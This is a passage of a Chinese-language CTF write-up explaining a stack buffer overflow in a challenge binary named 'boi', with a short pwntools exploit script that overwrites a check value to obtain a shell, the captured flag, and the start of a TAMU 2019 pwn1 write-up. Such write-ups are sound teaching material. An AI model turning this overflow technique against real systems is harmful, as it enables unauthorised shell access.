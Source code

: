![](https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.102grq5d0o.avif)

从 IDA 里面可以看出，程序可以将一个 24 (0x18) 字节 数据读入 `buf` 中。如果 `v5` 的 HIDWORD（高位四字节）等于 `0xCAF3BAEE` 则返回 shell，否则返回系统时间。

所以我们的思路就是溢出，然后覆盖原始数据。

下面是两种得到溢出点的方法：

1. 由于 `buf` 只有 16 字节大小（2 \* \_\_int64），而 `read` 却可以读取 24 字节数据，所以这里存在栈溢出漏洞，可以覆盖变量 `v5` 的内容。所以 payload 可以是 16（填满 buf） + 4（填满 4 字节低位使后面的数据可以直接覆盖高位数据，也就是做判断的部分） 字节垃圾数据 + `0xCAF3BAEE`。
2. 通过调试知道溢出点是 20 (0x14)：

![](https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.2vf1kcicff.avif)

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='amd64', log_level='debug', terminal='kitty')

target = process('./boi')

payload = b'A' * 0x14 + p32(0xcaf3baee)

target.send(payload)
target.interactive()
```

## Flag

Flag: `flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}`

# TAMU 2019 pwn1

## Information

- Category: Pwn
- Points: Unknow

## Description

> Unknow

## Write-up

```plaintext
λ ~/ file boi
pwn1: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd
7aa1accb16feac888c99841f504, not stripped
λ ~/ pwn checksec pwn1
[*] '/home/cub3y0nd/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
